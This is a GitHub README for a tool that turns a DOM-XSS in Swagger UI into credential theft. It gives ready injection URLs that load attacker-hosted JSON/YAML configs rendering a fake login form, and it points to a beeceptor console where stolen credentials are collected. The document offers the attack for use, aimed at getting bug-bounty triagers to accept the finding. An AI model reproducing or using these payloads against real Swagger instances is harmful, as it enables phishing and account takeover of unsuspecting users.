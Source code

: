 # Steal Users Credentials via Swagger UI DOM-XSS

Find xss at swagger ui and the triager didn't accept it as there is no cookie?

Use this repo to make fake login form and get user's Credentials 

Read this article first https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/ 
and practice with https://medium.com/@AlQa3Qa3_M0X0101/how-i-was-able-to-steal-users-credentials-via-swagger-ui-dom-xss-e84255eb8c96

## Demo

If you found Swagger UI try test xss 

        inject this at https://api.redirect.com/swagger/index.html?configUrl=https://m0x0101.github.io/lol/test.json
        or 
        https://api.redirect.com/swagger/index.html?url=https://m0x0101.github.io/lol/test.yaml

For Steal Users Credentials with form 
    
    1.  inject this at https://api.redirect.com/swagger/index.html?configUrl=https://m0x0101.github.io/lol/credentials_form.json
        or 
        https://api.redirect.com/swagger/index.html?url=https://m0x0101.github.io/lol/credentials_form.yaml
    2.  visit https://app.beeceptor.com/console/alqa3qa3m0x0101

## Feedback

If you have any feedback, please reach out to us at m0x0101.ctf@gmail.com



## Authors

- [@Mohamed Reda](https://www.github.com/M0x0101)


## Resources

https://medium.com/@AlQa3Qa3_M0X0101/how-i-was-able-to-steal-users-credentials-via-swagger-ui-dom-xss-e84255eb8c96

https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
## 🔗 Links
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/alqa3qa3m0x0101//)
[![twitter](https://img.shields.io/badge/twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white)](https://twitter.com/AlQa3Qa3M0x0101/)


<a href="https://www.buymeacoffee.com/M0X0101" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>


## Tech Stack

**Client:** HTML, JS


